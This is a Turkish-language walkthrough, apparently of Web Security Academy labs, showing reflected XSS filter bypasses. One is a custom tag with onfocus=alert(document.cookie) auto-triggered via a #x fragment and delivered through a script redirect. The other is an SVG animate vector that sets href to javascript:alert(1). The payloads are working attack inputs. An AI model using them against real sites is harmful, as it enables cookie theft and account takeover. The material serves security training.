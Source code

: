 Yani özel tag'ımızı şöyle güncelliyoruz:

```
<custom-tag id="x" onfocus="alert(document.cookie)" tabindex="1">
```

Arama yaptığımızda bu tag DOM’a başarıyla ekleniyor. Artık sayfa yüklendiğinde ve element focus aldığında, cookie bilgileri alert ile gösteriliyor.

Son adımda, bu focus olayını otomatikleştirmek için URL'nin sonuna `#x` ekliyoruz:

```
https://example.com/search?query=...#x
```

Bu şekilde, sayfa yüklendiğinde otomatik olarak `id="x"` olan element'e yönlenilir ve `onfocus` event'i tetiklenir.

```
<custom-tag id=x onfocus=alert(document.cookie) tabindex=1>
```

Ve bunu URL'nin sonuna `#x` ekleyerek kullan:

```
https://example.com/search?query=<custom-tag id=x onfocus=alert(document.cookie) tabindex=1>#x
```

End Payload:  

```
<script>location='https://0a620023048a83848060766b002b000d.web-security-academy.net/?search=<xss+id=x+onfocus=alert(document.cookie) tabindex=1>#x';</script>
```

----
# Laboratuvar: Event Handlers ve href attribute ile reflected XSS blocked

Bu laboratuvar, bazı whitelisted tag'lerle reflected bir XSS açığı içerir, ancak tüm event'ler ve anchor href attribute'leri engellenmiştir.

Laboratuvarı çözmek için, tıklandığında alert fonksiyonunu çağıran bir vektör enjekte eden bir cross-site scripting saldırısı gerçekleştirin.

Saldırı vektörünüze tıklamayı teşvik etmek için 'Click' kelimesini içeren bir tag kullanmanız gerektiğini unutmayın. Örneğin:

```
<a href="">Click me</a>
```

1- `YOUR-LAB-ID` yerine laboratuvar kimliğinizi yazarak aşağıdaki URL'yi ziyaret edin:

```
https://YOUR-LAB-ID.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E

https://YOUR-LAB-ID.web-security-academy.net/?search=<svg><a><animate+attributeName=href+values=javascript:alert(1)+/><text+x=20+y=20>Click me</text></a>
```
